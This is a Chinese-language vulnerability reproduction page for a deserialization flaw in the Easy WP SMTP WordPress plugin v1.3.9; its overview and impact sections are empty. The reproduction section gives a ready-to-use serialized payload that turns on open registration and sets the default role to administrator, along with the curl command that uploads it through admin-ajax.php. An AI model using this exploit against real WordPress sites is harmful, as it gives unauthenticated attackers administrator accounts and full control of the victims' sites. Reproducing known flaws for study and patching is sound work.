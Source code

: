 ```yaml
---
title: "WordPress Plugin - Easy WP SMTP 反序列化漏洞"
id: zhfly3242
---
```


# WordPress Plugin - Easy WP SMTP 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp_import_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：

```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";} 
```

2.上传文件

```
$ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt' 
```

![image](../img/b1822b5fa492820e2296e5ce0881fc64.png)